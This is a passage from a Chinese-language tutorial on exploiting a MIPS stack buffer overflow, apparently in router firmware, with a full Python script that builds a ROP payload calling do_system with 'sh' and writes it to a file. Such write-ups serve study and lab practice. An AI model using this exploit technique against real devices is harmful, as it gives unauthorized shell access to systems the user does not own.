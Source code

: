    通过上面的指引，构造exp；

   1. 已知需要填充的数据长度为431个byte，才能控制$ra。
   
   2. 之后让程序跳转到gadget上，此时会将`$sp+0x58-0x40`的值，即`$sp+0x18`的值赋值给`$a1`寄存器，作为cmd参数，因此需要提前将该地址覆盖为命令字符串的地址。
   3. 最后程序会跳转到`$sp+0x58-0x4`，即`$sp+0x54`，因此需要将这个地址上的内容覆盖为`do_system`函数的地址。
   
   于是，有如下的exp:
   
   ```python
   #coding:utf-8
   # exp.py
   import struct
   print("[*] creating shellcode ...")
   
   cmd = "sh"
   cmd += "\x00" * (4 - (len(cmd) % 4))
   
   # shellcode
   shellcode  = 'a' * 431 # (padding)
   shellcode += struct.pack(">L", 0x00401FD4) # jump to gadget, stack is 0x76FFEE6C($ra)
   shellcode += 'b' * 0x18 # $sp+0x18=0x76FFEE88, 0x76FFEE88-0x76FFEE6C=0x1C, 0x1C-0x4=0x18(padding)
   shellcode += cmd # (cmd, $a1)
   shellcode += 'c' * (0x38-len(cmd))# $sp+0x54=0x76FFEEC4, 0x76FFEEC4-0x76FFEE88=0x3C, 0x3C-len(cmd) => (padding)
   shellcode += struct.pack(">L", 0x00400311) # jump to do_system, 0x00400310
   shellcode += 'dddd'
   
   print("[+] shellcode is created successfully!")
   
   print("[*] writing file...")
   
   fd = open("passwd", "w")
   fd.write(shellcode)
   fd.close()
   
   print("[+] file has been written!")
   ```
   
   可以看到$ra即将恢复的值被覆盖为gadget的地址，由此完成了对`$ra`的控制，即程序流的控制。
   
   ![](D:\!K1ose\ForU\new_ra.jpg)
   
   同时可以看到对应的位置被覆盖了`sh\x00\x00`，以及`do_system`的地址。
   
   ![](./router-vuln-overflow/shellcode_overlap.jpg)
   
   接下来看看程序的执行。
   
   
